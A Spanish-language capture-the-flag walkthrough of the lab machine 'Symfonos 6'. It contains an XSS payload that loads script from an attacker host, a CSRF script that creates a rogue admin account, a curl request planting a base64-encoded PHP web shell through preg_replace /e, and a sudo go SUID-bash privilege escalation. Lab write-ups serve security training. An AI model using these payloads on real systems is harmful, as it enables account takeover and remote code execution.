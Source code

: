 # Symfonos 6

**Sistema Operativo**: Linux

**Dificultad**: Media

**Técnicas Vistas**: Web Enumeration /
FlySpray Exploitation /
Abusing FlySpray / Cross Site Scripting (XSS) /
Getting the administrator to create a new privileged user through XSS /
Information Leakage /
Gitlab Enumeration /
Abusing API + Preg_Replace to achieve RCE on the creation of a new post /
Abusing sudoers privilege (go) [Privilege Escalation] 

Te prepara para las **Certificaciones**: eWPT /
eWPTXv2 /
OSWE /
eCPPTv2 /
eCPTXv2 

![image](https://github.com/user-attachments/assets/209dae1a-8407-4cc4-95c4-9a5e899058e6)

# Reconocimiento

Aplicamos un barrido en la red local utilizando `arp-scan` para encontrar la IP de la maquina victima:
![image](https://github.com/user-attachments/assets/4f811da8-2144-4421-aa50-31cd3733c28e)
- `-I eth0` -> Mi interfaz grafica.
- `--localnet` -> Red local.
- `--ignoredups` -> Que ignore duplicados.

Utilizando `nmap` vemos los puertos abiertos.
![image](https://github.com/user-attachments/assets/dbcc4648-08ff-4126-8cda-afcb1d2dea2c)
- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"


Utilizando `nmap` lanzamos los scripts mas comunes.
![image](https://github.com/user-attachments/assets/58c43f4f-d792-4f2b-9605-a7e27c5318b0)
- `OpenSSH 7.4` -> Versión SSH desactualizada
- `PHP 5.6.40` -> Versión PHP desactualizada

Utilizando `gobuster` encontramos la carpeta **flyspray**
![image](https://github.com/user-attachments/assets/d3f4cb9e-e7a8-471c-ba33-279954cb5678)
- `dir` ->  Buscar directorios 
- `-u` -> Indicar URL
- `-w` ->  Indicar diccionario que voy a utilizar
- `-t` -> Numero de hilos que voy a usar
- `-x` -> Extensiones que quiero que pruebe
- `--add-slash` -> Que coloque una barra al final
- `grep -v "500"` ->  No quiero ver código de estado 500

Simplemente nos registramos
![image](https://github.com/user-attachments/assets/a1b0ed98-681a-4e35-975e-a41f31258032)

---

# CSRF

Utilizaremos este **exploit** para explotarlo:

https://www.exploit-db.com/exploits/41918 

En el campo "Real Name" colocaremos ` "><script src=http://IPATACANTE/pwned.js></script>  `
![image](https://github.com/user-attachments/assets/a2c821bb-02e3-4cfc-9ae8-a8f8eaf01632)



Creamos el archivo `pwned.js`, el cual creara un usuario "hacker" y de contraseña "12345678" con privilegios **root**.

```
var tok = document.getElementsByName('csrftoken')[0].value;

var txt = '<form method="POST" id="hacked_form" action="index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hacker"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
txt += '<input type="hidden" name="real_name" value="root"/>'
txt += '<input type="hidden" name="email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="verify_email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="jabber_id" value=""/>'
txt += '<input type="hidden" name="notify_type" value="0"/>'
txt += '<input type="hidden" name="time_zone" value="0"/>'
txt += '<input type="hidden" name="group_in" value="1"/>'
txt += '</form>'

var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();
```

Abrimos con Python el puerto 80, donde se encuentra nuestro `pwned.js`.
![image](https://github.com/user-attachments/assets/d9fb5817-56f7-4177-91c9-bb655895b98e)

Ponemos un comentario
![image](https://github.com/user-attachments/assets/2f28b883-fbdb-4f20-837a-029608be1659)



Usuario: achilles,
Contraseña: h2sBr9gryBunKdF9


![image](https://github.com/user-attachments/assets/b96c42ea-07e4-43a0-9c64-8a78a4265ea6)

Nos autenticamos como **achilles** en http://symfonos.local:3000 
![image](https://github.com/user-attachments/assets/4110883e-2d2d-4e41-95d6-5d8daa7710b0)

-----


# Explotación de api

Una vez adentro  en los repositorios de achilles, investigando vamos a ver:

Preg_replace



![image](https://github.com/user-attachments/assets/0c2556e6-e1c1-43ea-89ad-3f57331d0daf)
- ` /.*/e ` -> Una expresion regular con **Modificador e** -> vulnerable (le podes meter código php)
- `$content` -> contenido
- `"WIN"` -> una palabra

-----

### Investigando mas vamos armar esta URL api:

curl -s -X POST "http://symfonos.local:5000/ls2o4g/v1.0/auth/login" 

Luego encontraremos que me pide un campo "username" y un campo "password".
![image](https://github.com/user-attachments/assets/335a9400-6486-436c-9680-594080a86d9c)


- ` curl -s -X POST "http://symfonos.local:5000/ls2o4g/v1.0/auth/login" -H "Content-Type: application/json" -d '{"username":"achilles", "password":"h2sBr9gryBunKdF9"}' `

- `-H` -> El Content Type para que me reconozca la data json
- `-d` -> Data en json que quiero mandar
- `username` -> campo username
- `password` -> campo password

Esto nos dará un json web token (pero no tenemos el secreto), asi que por ahora no nos sirve.
Vemos que el "id":1 -> Nos va a servir para explotar el preg_replace 
![image](https://github.com/user-attachments/assets/f5923926-b674-44f6-bc7c-9c8019f50b0c)


---

Vemos que indicando una petición por `PATCH`, y pasando el `id` (que es 1), podemos actualizar el post que esta en http://symfonos.local/posts/ 



![image](https://github.com/user-attachments/assets/c8da2743-dffe-4681-a9a6-f85f9b298fdb)

Al parecer necesitamos poner un campo "text"
![image](https://github.com/user-attachments/assets/d3b97eb3-18ab-4df5-9f8b-977a9304d1be)




Pongo en base64 este script php:



![image](https://github.com/user-attachments/assets/ee6ad1f0-b980-49c8-bc73-41822176ffc2)


- `  curl -s -X PATCH "http://symfonos.local:5000/ls2o4g/v1.0/posts/1" -H "Content-Type: application/json" -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MjE0ODU3NDAsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.SPUuZ3ybrOID6ktLJNDysNiJK_t97wdwCp5w18puiqg" -d $'{"text": "file_put_contents(\'cmd.php\', base64_decode(\'PD9waHAKIHN5c3RlbSgkX0dFVFsnY21kJ10pOwo/Pgo=\'))"}'   `


- `file_put_contents` -> Crear un archivo y ponerle lo que quieras.

- `base64_decode` -> decodificar el  script php en base64 que hicimos

Query para ganar acceso a la maquina:
![image](https://github.com/user-attachments/assets/593c465a-c4ba-41ce-8f50-8787b5fe0dc8)
![image](https://github.com/user-attachments/assets/54833dc5-a1fa-4111-8dff-15866f1daf30)

-------

# Escalada de privilegios

Nos conectamos como achilles



![image](https://github.com/user-attachments/assets/2ff56b4e-e61e-4a46-b6a4-f269a9171b45)


Con `sudo -l` vemos que podemos ejecutar el binario `go` como root.
![image](https://github.com/user-attachments/assets/6dda3791-38b1-4c56-b0c1-734ff06084d5)


Script de `go` , para ponerle SUID a la bash

https://zetcode.com/golang/exec-command/

```go
package main

import (
    "log"
    "os/exec"
)

func main() {

    cmd := exec.Command("chmod", "u+s", "/bin/bash")

    err := cmd.Run()

    if err != nil {
        log.Fatal(err)
    }
}
```

Ejecutamos con `sudo /usr/local/go/bin/go run go.go` 



![image](https://github.com/user-attachments/assets/634f37ef-7dbe-4d95-b62e-0db8308fd913)

- `go.go ` -> Nombre de mi script
- `run` -> para que inicie mi script

Flag Final:



![image](https://github.com/user-attachments/assets/f0572425-da98-4098-bc91-e878ca7193ea)
